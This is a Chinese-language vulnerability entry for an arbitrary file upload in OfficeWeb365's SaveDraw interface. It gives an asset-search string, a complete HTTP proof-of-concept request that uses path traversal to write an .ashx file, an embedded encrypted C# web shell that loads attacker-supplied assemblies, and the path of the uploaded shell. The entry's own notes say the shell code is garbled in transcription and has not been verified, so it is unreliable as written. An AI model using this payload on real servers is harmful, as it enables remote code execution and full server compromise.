

# OfficeWeb365 SaveDraw路径控制任意文件上传

## 条目说明

- 对象与具体问题：OfficeWeb365；SaveDraw路径控制任意文件上传
- 版本、配置及部署条件：无明确版本；ASP.NET ashx可执行部署
- 认证与权限前提：未说明；请求无凭证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与同目录OfficeWeb365SaveDraw为同接口同落点漏洞
- 代码严重转写损坏（System.I0、byteDk、using&等），无法作为可信复现样本
- 正文缺漏洞根因/修复版本及响应文本

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

OfficeWeb365 SaveDraw 接口存在任意文件上传漏洞，攻击者通过漏洞可以在服务器中上传任意文件获取服务器权限

### 漏洞影响

OfficeWeb365

### 网络测绘

```
"OfficeWeb365"
```

### 漏洞复现

产品页面


验证POC

```http
POST /PW/SaveDraw?path=../../Content/img&idx=6.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.434.18 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

data:image/png;base64,01s34567890123456789y12345678901234567m91<%@ WebHandler Language="C#" Class="Handler" %>using System;using System.I0;using System.Reflection;using System.Text;using System.Web;using System.WebSessionState;using&System.Security.Cryptography;public class Handler : IHttpHandler,IRequiresSessionState{public void=&ProcessRequest(HttpContext context){try{string key="900bc885d7553375";byteDk=&Encoding.Default.GetBytes(key);context.Session.AddC"sky", key);StreamReader sr=new&StreamReader(contextRequest.InputStream);string line=sr.ReadLine;if(!string.IsNullOrEmpty(line)){byteDc=&Convert.FromBase64String(line);Assembly assembly=&typeof(Environment).Assembly;RijndaelManaged rm=(RijndaelManaged)&assembly.CreateInstance("System.Secur"+"ityCrypto"+"graphy.Rijnda"+"elm anaged");byte[ data=rm.CreateDecryptorCk,k)TransformFinalBlock(c,0, c.Length);Assembly.Load(data)CreateInstance("U").Equals(context);sr.clo se();}}catch {}}public bool IsReusable{get{return false;}}}}---
```

> 请求长度说明：原资料 Content-Length 为 990；静态长度已移除，应由客户端根据最终请求体的字节数生成。



上传地址

```
/Content/img/UserDraw/drawPW6.ashx
```


---

> 来源：Threekiii/Awesome-POC
